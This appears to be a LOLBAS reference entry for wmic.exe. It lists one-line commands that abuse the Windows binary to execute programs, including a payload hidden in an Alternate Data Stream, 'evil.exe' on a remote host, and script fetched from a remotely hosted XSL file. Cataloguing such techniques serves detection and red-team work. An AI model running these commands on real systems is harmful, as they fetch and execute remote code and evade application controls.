 ## Wmic.exe
```

wmic.exe process call create calc
Execute calc.exe.

wmic.exe process call create "c:\ads\file.txt:program.exe"
Execute a .EXE file stored as an Alternate Data Stream (ADS).

wmic.exe /node:"192.168.0.1" process call create "evil.exe"
Execute evil.exe on the remote system.

wmic.exe process get brief /format:"https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Wmic_calc.xsl"
Execute a script contained in the target .XSL file hosted on a remote server.

wmic.exe os get /format:"MYXSLFILE.xsl"
Executes JScript or VBScript embedded in the target XSL stylesheet.

wmic.exe process get brief /format:"\\127.0.0.1\c$\Tools\pocremote.xsl"
Executes JScript or VBScript embedded in the target remote XSL stylsheet.
```
* Windows binary: True   
* Bypasses Default AppLocker Rules: False   
* Mitre: []()   
   
* Links:   
  * https://stackoverflow.com/questions/24658745/wmic-how-to-use-process-call-create-with-a-specific-working-directory
  * https://subt0x11.blogspot.com/2018/04/wmicexe-whitelisting-bypass-hacking.html
  * https://twitter.com/subTee/status/986234811944648707
   
* File path:   
  * c:\windows\system32\wbem\wmic.exe
  * c:\windows\sysWOW64\wbem\wmic.exe
   
* Acknowledgement:   
  * Name: Casey Smith
    * Twitter: [@subtee ](https://twitter.com/@subtee )
    * Blog: https://subt0x11.blogspot.com
   
OS:  

